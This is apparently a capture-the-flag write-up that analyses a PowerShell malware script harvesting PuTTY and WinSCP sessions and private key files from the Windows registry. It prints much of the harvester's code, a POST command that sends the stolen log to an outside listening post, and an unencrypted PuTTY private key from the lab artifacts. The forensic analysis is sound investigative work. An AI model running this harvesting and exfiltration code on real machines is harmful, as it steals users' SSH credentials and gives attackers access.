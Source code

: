 ### First Insights

At this point in the investigation we now know that we had a malicious script execute on an employee's machine. Now that we have discovered the script, we need to examine the code being executed to determine what data the malware stole from the machine and sent to the LP. This will require a full breakdown of the malware and examination of files that the script accessed. This task attached an artifacts.zip, which contained multiple PuTTY and WinSCP keys and the employee's NTUSER.dat file. With these given files, along with the malware script, we have a good route to determine the extent of the breach.

### Malware Examination

Our first step to find the comprimised OOPS account is to examine the malware. The entire script is included in this task's directory, but we will be using snippits of it.
After the inital function declarations, we see that there is a global log that is being sent back to the listning post and the Invoke-SessionGopher function is called. We will start there.

```
function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"


  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information.
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)

    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList

      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)

      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives

  Write-Host "Final log:"
  $global:log
```
This function acts as the "main" of the script. It gives away what data the malware is attempting to dig in the declarations of *$PuTTYPathEnding* and *$WinSCPPathEnding*. These tell us that the malware is attempting to look for stored data about the machine's PuTTY and WinSCP sessions. The malware then looks in the Windows User Registry for all past and current users on the machine. After collecting all of the users, the script calls two methods, *ProcessWinSCPLocal* and *ProcessPuTTYLocal*. This confirms that the malware is digging for ssh credentials. We will now look at the *ProcessPuTTYLocal* method.

```
function ProcessPuTTYLocal($AllPuTTYSessions) {

  # For each PuTTY saved session, extract the information we want
  foreach($Session in $AllPuTTYSessions) {

    $PuTTYSessionObject = "" | Select-Object -Property Source,Session,Hostname,Keyfile

    $PuTTYSessionObject.Source = $Source
    $PuTTYSessionObject.Session = (Split-Path $Session -Leaf)
    $PuTTYSessionObject.Hostname = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "Hostname" -ErrorAction SilentlyContinue).Hostname)
    $PuTTYSessionObject.Keyfile = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "PublicKeyFile" -ErrorAction SilentlyContinue).PublicKeyFile)

    # ArrayList.Add() by default prints the index to which it adds the element. Casting to [void] silences this.
    [void]$ArrayOfPuTTYSessions.Add($PuTTYSessionObject)

    # Grab keyfile inode and add it to the array if it's a ppk
    $Dirs = Get-ChildItem $PuTTYSessionObject.Keyfile -Recurse -ErrorAction SilentlyContinue
      foreach ($Dir in $Dirs) {
        Switch ($Dir.Extension) {
          ".ppk" {[void]$PPKExtensionFilesINodes.Add($Dir)}
        }
      }
  }

  if ($o) {
    $ArrayOfPuTTYSessions | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY.csv") -NoTypeInformation
  } else {
    Write-Log "PuTTY Sessions"
    Write-Log ($ArrayOfPuTTYSessions | Format-List | Out-String)
  }

  # Add the array of PuTTY session objects to UserObject
  $UserObject | Add-Member -MemberType NoteProperty -Name "PuTTY Sessions" -Value $ArrayOfPuTTYSessions

} # ProcessPuTTYLocal
```
This is the one of the bulk digging functions of the malware. This method looks at each PuTTY session store in the Registry and extracts two values, *HostName* and *PublicKeyFile*. These two values are exactly what the malware needs to be able to get into a machine, as long as the Public Key file is non-encrypted. From all of the parsed keyfiles in the registry the malware then searches the machine for the matching key files and saves them to the global log as a .csv. The other digging method looks for WinSCP sessions and does the same thing. After the registry and key files are parsed, the malware then makes it POST request to the LP.

```
Invoke-WebRequest -uri http://rlwmw.invalid:8080 -Method Post -Body $global:log
```
Now knowing that the malware is searching for unsecure keys stored on the machine, we must look at the included NTUSER registry file to see if any keys are not encrypted.

### Understand Windows Registry

The first step to examine the Registry is to know how to open the file. After research, I was able to load the hive onto my machine and was ready to see what the malware touched. Following the path in the malware, I was albe to see that there was a decent amount of files that the malware examined. 

```
$PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
$WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"
```

![image](https://user-images.githubusercontent.com/94944325/145702185-36260c1c-2458-4dc1-99ce-eb84cb5d11fb.png)

Looking into the registry, we were able to narrow down the list of keys we needed to find that could be unencrypted. We can see that there are 5 PuTTY keys that we need to verifyied.


### Determine Comprimise

After knowing which PuTTY Sessions were stored in the employee's registy, we now need to look at the session keys to make sure they are encrypted. After searching through the 5 keys present, we found that the key for dkr_prd72 was not encrypted, meaning the LP now how the credentials to ssh into the machine.

```
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: __COMP4__
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEAi2xdUFsRQhaU92qNU6U+pbUbHT+8me2TiY+v
8Nc3VHBuQRQ1p4OjJuhryN0dTv18uaW1lc1uFBHWExpPYaBAP3O7HzTfRD/o5xYH
L2+NMELqIeMkHMa/5BDzOB+sTObQdLJ5ZlAlczBdDsKI7hQwp9w6VherXzadGx2N
rD/uME4ETJZj/a3WqdmYU5JinX58DwM8zqALh3CMZP0ZE7tPiW5vyEo6TDYX9o02
l2V5+Cah8zpyXSiIYEe3WKqp2Ohl83J2E/FuWse3kGiSdBVk3JMtmsZkzmL25wh9
K3LjdS3hzmi6z7IT1rmU+5yOR+Km9dTCvqY27AU0fouGNlDi8w==
Private-Lines: 14
AAABAHELwUgSfLIgJcGwVunf7ZsdOJRBhCnHjGGyxgGL56w/e/1qVQRc5SZ3QqLc
y6fUcvdjw6nk1csVYXdFw9Kdm+BrrHoq3opdVQ5k4zs32kLOeKXaw1WaOrjrJhHU
fd184F6ei/IXeE+O/1gTWkR/ErGdzm9RdjGGOjGpQm/8e+/PWYizwcOTJfCXuFKF
qaOJbCovinuFic+376Rhgo5Vo0sqqjlkRC8EPrewBbjc157Y2okKVmoc2H75XV1/
uBZ3o6oS8KknQAwYSdQZmdLnx2Uqft8j5MvdjsA+JHRmIjPWa2/UjOaPjPi4U6OH
uC1tK+xUF7Du0OAHIErSQYTeDv0AAACBANOT1+3kz7BzkptUoYJL6Y34S7NMemYu
IzcgWP+4fH4MS9G6yd2B+vUff/yo3uWddF/o8A0TLyjHTY01EVIN+qafgcqPD4aA
GjQonifN0KJnsa8XqADuW4qZl7vB8ZNOA8SYHtpzgVbYsnABus8LV5g3AqAFI7UF
DEMEJ6ZQ3P8HAAAAgQCoskcpQUJEODaImSnkbklPFeNNpYl7YaY2PivWNDuZKPaH
18j3oU+AJ7QhzsuKbB5FlHlhHG9lpwrhp8AW4mtCRnLpGqj2urGw4jNgIibmIsau
1k/85JhNT0Y/HjaMXrK61wf/YfcoujTf9HYX0VE2cK6wLBezfVaN6ukXn3MVtQAA
AIB2+HEmxXUIAqNj7Us3KjvUXVEzzYfT+J+MqkC22GJbKsUWGb+0EWTSLgTQtI83
WxEFBGJ1fo5pQ0KHDEdry9+s91yrHlMnfQBl33R8eKZKdknvh53C0ney+4C21Fc+
u++6hO4qP3foJEIJ4t7wPTtMOVNHRkfFLnGPSFy7jwjWMA==
Private-MAC: 69516e4c3f42737590234ba010954761879abd61
```

![image](https://user-images.githubusercontent.com/94944325/145702220-e11866e9-264f-4a22-8ace-248b463eba21.png)

![image](https://user-images.githubusercontent.com/94944325/145702234-fc112f06-a083-4d61-a894-afe4fc4ad68d.png)

To complete this task, we were looking for the Hostname and Machine that the attacker now has access to, this can be seen in the snippits of the registry variables above. Since the PuTTY key is not encrypted, the LP can now ssh into the machine freely using builder07@drk_prd72.

